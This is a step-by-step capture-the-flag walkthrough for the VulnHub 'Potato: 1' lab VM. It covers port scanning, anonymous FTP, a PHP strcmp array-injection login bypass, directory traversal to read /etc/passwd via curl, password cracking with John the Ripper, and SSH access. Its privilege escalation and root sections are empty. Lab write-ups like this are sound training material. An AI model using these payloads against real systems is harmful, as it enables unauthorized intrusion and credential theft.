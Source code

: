 # Potato: 1 Walkthrough

## Preparation
1. Download Potato.ova file ([Potato.ova](https://download.vulnhub.com/potato/Potato.ova))
1. Import the OVA file in the VirtualBox
1. Set the network adapter to Host-only Adapter
![Host-onlyAdapter](./img/potato_server_network.png)
1. Start the Potato virtual machine
![StartPotato](./img/potato_server_initial.png)
1. Confirm the IP address of the Potato virtual machine from the attack virtual machine  
![netdiscover](./img/potato_server1.png)
![PotatoIP-Address](./img/potato_server2.png)
    * 192.168.56.100: DHCP Server
    * **192.168.56.102**: Potato Server
1. Set the Potato IP address to the environment variance  
`export IP=192.168.56.102`  

## Reconnaissance
1. Do portscan using Nmap  
`sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  
![nmap](./img/potato_server3.png)
    * -sC: Scan with default script
    * -sV: Show software name and the version
    * -Pn: Do not confirm communication before port scan (We have already confirmed the Potato IP address.)
    * -p-: Scan all ports (from 0 to 65535 ports)
    * -oN: Output the scan results to the specified file
1. As we see the nmap result, we can attempt to log in with AnonymousFTP.  

## Initial Access
1. Access the FTP service  
`ftp $IP 2112`  
![FTP-Access](./img/potato_server4.png)
    * Name: anonymous
    * Password: password (empty is OK)
1. Get index.php.bak and welcome.msg files
![GetFiles](./img/potato_server5.png)
1. Exit FTP service  
Input the `exit`.  
1. Confirm the downloaded files
    - Investigate the "welcome.msg" and confirm the content
    ![Welcome.msg](./img/potato_server6.png)  
    There is no useful information in this file.  
    - Investigate the "index.php.bak" and confirm the content
    ![index.php.bak](./img/potato_server7.png)  
    username is fixed to "admin"  
    default pass is "potato"  
1. Since we know the index.php page and the Nmap result shows the 80 port is open, we find accessible files and directories using Gobuster.
    - Set the 80 port URL to the environment variance  
    `export URL="http://$IP:80/"`  
    - Input the following gobuster command  
    `gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt`  
        * dir: Enumerate directories and files
        * -u: Designate target URL
        * -w: Use dictionary file
    - Find /admin directory
    ![admin_directory](./img/potato_server8.png)
1. Access the /admin page using Burp
    - Proxy -> Intercept -> Intercept on -> Open browser -> Enter "http://192.168.56.102/admin" in the browser  
    - Click "Forward" until Login page is shown
    - Enter "admin" in the User and "test" in the Password and click Login button
    - In the "index.php.bak" file, the password is confirmed using the strcmp() function. In the PHP strcmp() function, we designate an array type, and it causes an error. Unfortunately, "NULL == 0" becomes **True** in PHP specification.
    - Change the input password in the Burp  
    Current: `username=admin&password=test`  
    Changed: `username=admin&password[]=test`  
    ![Burp_password](./img/potato_server9.png)  
    - Change to "Intercept off"
    - Go to the dashboard page and access the Logs page  

## Execution
1. Attempt directory traversal in the Logs page
    - Change to "Intercept on"
    - Select log_01.txt (log_02.txt or log_03.txt is OK) and click the "Get the log" button
    - Change the log_01.txxt file directory  
    Current: `file=log_01.txt`  
    Changed: `../../../../../etc/passwd`  
    ![file_directory](./img/potato_server10.png)
    ![etc_passwd](./img/potato_server11.png)
1. Make /etc/passwd data file using the Cookie pass and curl command
    - Cookie pass is as follows
    ![Cookie_pass](./img/potato_server12.png)
    - Curl command is as follows  
    `curl -X POST -b "pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh" -d 'file=../../../../../etc/passwd' "http://192.168.56.102/admin/dashboard.php?page=log" | tr '\0' '\n' | cat > etc_passwd.txt`  
        * -X: Designate HTTP method
        * -b: Send Cookie
        * -d: Send form as POST request
        * tr '\0' '\n': Replace null with carriage return
        * cat > etc_passwd.txt: Output the command result in the etc_passwd.txt
1. Analyze the etc_passwd.txt
    - Extract login-enabled users using the following command  
    `cat etc_passed.txt | grep -P 'sh$'`  
    ![Login-enabled-users](./img/potato_server13.png)
        * grep -P 'sh$' is used to search for lines in a file that end with the string sh
        * Login-enabled users have "bash" or "sh" in the 7th field
        * There are "root", "floarianges", and "webadmin" users
    - Extract users who have password hash from the etc_passed.txt file  
    `cat etc_passwd.txt | grep -P 'sh$' | grep webadmin > webadmin_hash.txt`  
    - Decrypt password hash using John the Ripper  
    `john webadmin_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`  
    ![john](./img/potato_server14.png)
        * webadmin password: **dragon**  

## Credential Access for general user
1. SSH access
    - From the Nmap result, as the SSH port is open, we attempt to access SSH
    ![SSH-access](./img/potato_server15.png)
        * password: **dragon**
    - Confirm the home directory and access the user.txt file
    ![General-user-text](./img/potato_server16.png)  

## Privilege Escalation


## Credential Access for root user
